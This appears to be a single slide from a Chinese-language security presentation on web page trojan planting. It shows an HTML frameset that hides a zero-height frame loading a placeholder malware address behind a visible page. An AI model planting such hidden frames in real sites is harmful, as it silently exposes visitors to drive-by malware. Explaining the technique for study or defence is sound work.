

# 网页挂马
伪装调用
<frameset rows="444,0" cols="*">
<frame src="打开网页" framborder="no" scrolling="auto" noresize marginwidth="0"margingheight="0">
<frame src="网马地址" frameborder="no" scrolling="no" noresize marginwidth="0"margingheight="0">